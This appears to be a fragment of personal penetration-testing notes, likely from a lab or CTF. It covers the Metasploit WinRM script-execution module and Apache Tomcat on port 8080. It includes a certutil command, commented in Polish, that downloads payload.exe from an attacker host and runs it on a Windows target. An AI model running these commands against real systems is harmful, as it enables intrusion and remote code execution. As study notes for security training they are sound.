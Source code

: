 ```bash
use exploit/windows/winrm/winrm_script_exec
...
set FORCE_VBS true
```


# Apache Tomcat (T:8080)

The Apache Tomcat web server is primarily used to host dynamic websites or web applications developed in Java.

## $ msf
[[Metasploit#Apache Tomcat]]

```bash
# kopiuje na windows plik z adresu ... i zapisuje do pliku payload.exe
certutil -urlcache -f http://10.10.18.6:8000/payload.exe payload.exe
dir
.\payload.exe
```


